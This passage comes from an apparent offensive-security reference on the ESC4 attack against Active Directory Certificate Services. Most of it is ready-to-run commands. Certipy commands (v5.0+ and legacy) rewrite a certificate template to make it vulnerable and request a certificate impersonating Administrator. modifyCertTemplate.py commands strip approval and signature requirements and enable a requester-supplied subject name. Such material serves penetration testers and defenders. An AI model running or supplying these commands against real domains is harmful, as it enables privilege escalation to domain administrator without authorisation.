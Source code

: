 > [!WARNING] WARNING
> **Major change with Certipy v5.0+**
> Certipy introduced new behavior and flags in version 5.0. Some commands were renamed or replaced, and automatic backup of the template configuration is now performed.
> If you're using older versions, switch to **UNIX-like (legacy Certipy)**.

```bash
# 1. Save the old configuration, edit the template and make it vulnerable
certipy template -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -template "$ESC4_TEMPLATE_NAME" -write-default-configuration

# Warning: running the coommand twice will override the backup file, make sure to keep a second backup of the old configuration somewhere.

# 2. Request a template certificate with a custom SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca "$CA_NAME" -template "$ESC4_TEMPLATE_NAME" -upn "Administrator@$DOMAIN"

# 3. After the attack, restore the original configuration
certipy template -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -template "$ESC4_TEMPLATE_NAME" -write-configuration "$ESC4_TEMPLATE_NAME.json" -no-save
```

If a more precise template modification is needed, [modifyCertTemplate](https://github.com/fortalice/modifyCertTemplate) (Python) can be used to modify each attributes of the template.

```bash
# 1. Disable Manager Approval Requirement
modifyCertTemplate.py -template templateName -value 2 -property mspki-enrollment-flag "$DOMAIN/$USER:$PASSWORD"

# 2. Disable Authorized Signature Requirement
modifyCertTemplate.py -template templateName -value 0 -property mspki-ra-signature "$DOMAIN/$USER:$PASSWORD"

# 3. Enable SAN Specification
modifyCertTemplate.py -template templateName -add enrollee_supplies_subject -property "msPKI-Certificate-Name-Flag" "$DOMAIN/$USER:$PASSWORD"

# 4. Edit Certificate Application Policy Extension
modifyCertTemplate.py -template templateName -value "'1.3.6.1.5.5.7.3.2', '1.3.6.1.5.2.3.4'" -property "pKIExtendedKeyUsage" "$DOMAIN/$USER:$PASSWORD"
```

> [!TIP]
>
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.

=== UNIX-like (legacy Certipy)

```bash
# 1. Save the old configuration, edit the template and make it vulnerable
certipy template -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -template "$ESC4_TEMPLATE_NAME" -save-old

# Warning: running the coommand twice will override the backup file, make sure to keep a seconde backup of the old configuration somwhere.

# 2. Request a template certificate with a custom SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca "$CA_NAME" -template "$ESC4_TEMPLATE_NAME" -upn "Administrator@$DOMAIN"

# 3. After the attack, restore the original configuration
certipy template -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -template "$ESC4_TEMPLATE_NAME" -configuration "$ESC4_TEMPLATE_NAME.json"
```

